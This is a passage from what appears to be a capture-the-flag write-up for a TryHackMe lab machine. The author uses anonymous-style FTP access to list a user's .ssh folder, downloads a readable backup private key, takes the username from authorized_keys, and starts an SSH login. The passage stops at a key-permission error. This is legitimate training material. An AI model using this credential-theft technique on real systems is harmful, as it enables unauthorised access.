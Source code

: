 ```console
ftp> cd .ssh
250 Directory successfully changed.
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 1003     1003         4096 Jun 22  2023 .
drwxr-xr-x    5 1003     1003         4096 Jun 29  2023 ..
-rwxr-xr-x    1 1003     1003          573 Jun 22  2023 authorized_keys
-r--------    1 1003     1003         2610 Jun 22  2023 id_rsa
-rwxr-xr-x    1 1003     1003         2610 Jun 22  2023 id_rsa_backup
226 Directory send OK.
ftp> get authorized_keys
local: authorized_keys remote: authorized_keys
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for authorized_keys (573 bytes).
100% |******************************************************************************************************************|   573      297.48 KiB/s    00:00 ETA
226 Transfer complete.
573 bytes received in 00:00 (5.07 KiB/s)
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 EPRT command successful. Consider using EPSV.
550 Failed to open file.
ftp> get id_rsa_backup
local: id_rsa_backup remote: id_rsa_backup
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for id_rsa_backup (2610 bytes).
100% |******************************************************************************************************************|  2610        3.15 MiB/s    00:00 ETA
226 Transfer complete.
2610 bytes received in 00:00 (38.81 KiB/s)
```

From the `authorized_keys` file, I read the user `challenger@thm-lamp`, who is associated with the public key. This suggests that the `challenger` user is configured to log in to the system

```
...HlPMGoLUcoH31phXUslNBjigdc8EPMOSX+7PhQVMD0= challenger@thm-lamp
```
## User access
I decided to use this key to establish a connection via **SSH**. During the connection attempt, a permissions error occurred:

```
Permissions 0664 for 'id_rsa_backup' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa_backup": bad permissions
challenger@10.10.100.237: Permission denied (publickey).
```

To fix this, I changed the permissions of the private key file:
